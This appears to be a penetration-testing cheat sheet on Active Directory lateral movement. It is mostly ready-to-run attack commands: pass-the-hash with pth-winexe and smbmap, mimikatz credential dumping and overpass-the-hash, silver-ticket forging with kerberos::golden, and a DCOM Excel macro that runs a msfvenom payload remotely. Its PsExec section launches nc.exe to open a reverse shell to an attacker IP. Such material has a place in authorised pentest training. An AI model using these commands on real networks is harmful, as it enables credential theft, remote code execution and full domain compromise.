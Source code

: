 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## SMBMap with hashes

If we get a hash we can try to use smbmap in order to test if the user have write access to the C vol or C$, then we can crack that hash to and use PsExec to get a shell.

```bash
smbmap -u $USERNAME -p $HASH(xxx:xxx) -H $IP_ADDRESS

```
_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```

_____

## Pass The Ticket

The overpass the hash used before provides us with a TGT ticket which is only usable on the machine it was created for. Pass The Ticket attack takes advantage of the TGS which may be exported and re-injected elsewhere used to authenticate to a specific service.

With the SPN service account password or its associated NTLM hash we can forge our own TGS to access the target resource with any permission we desire (silver ticket).

We make use of mimikatz kerberos::golden command to create this ticket.

**Step 1:** Find the SID of the domain:

```bash
whoami /user
#SID is all the output minus the last part (last 4 numbers)
```

**Step 2:** Craft the ticket:

```bash
kerberos::golden /user:$DOMAINUSER /domain:$DOMAIN /sid:$SID /target:$SPNNAME /service:$SERVICE /rc4:$NTLMHASH /ptt

#user: Domain user we currently are, not the service user.
#service: First part of serviceprincipalname (until "\").
#ppt: Injects directly the ticket in memory. Remove to save the ticket on disk.
#rc4: NTLM hash of the password.
```

This service ticket will have permissions as built-in local administrator user (500) and Domain Admins (plus other high privileged) AD group. Once loaded into memory, we can interact with the service and gain access to any information, including command execution.

_____

## DCOM

We can use DCOM (like Macros from Excel) to perform a lateral movement technique. This method will allow us to execute a Visual Basic Macro remotely. Note: Office shoud lbe installed on the remote machine.

**Step1:** Create a document and paste the following macro:

```bash
#Create the payload with msfvenom with format (hta-psh)
Sub MyMacro()
Dim Str As String

Str = Str + "$PAYLOAD"
Str = Str + "$PAYLOAD"

Shell (Str)

End Sub
```

**Step 2:** Execute the following code on a PS window in order yo upload the file to the remote machine and execute the macro.

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$REMOTEIPADDRESS"))
$LocalPath = "$LOCALPATH\$FILENAME.xls"
$RemotePath = "\\$REMOTEIPADDRESS\c$\$FILENAME.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\$REMOTEIPADDRESS\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\$FILENAME.xls")
$com.Run("mymacro")

#Note: filename must be .xls
```

_____

## PsExec

The credentials supplied to PsExec must have elevated privileges on the targeted client machine. If we can not pass the hash to PsExec, use the metasploit module.

#### Using PsExec.exe (local machine)

Connect to a remote machine using known credentials or hashes:

```bash
#32 bits:
PsExec.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe


#64 bits:
PsExec64.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe
```

#### Using psexec.py (kali)

```bash
python psexec.py $USERNAME@$IP_ADDRESS
```

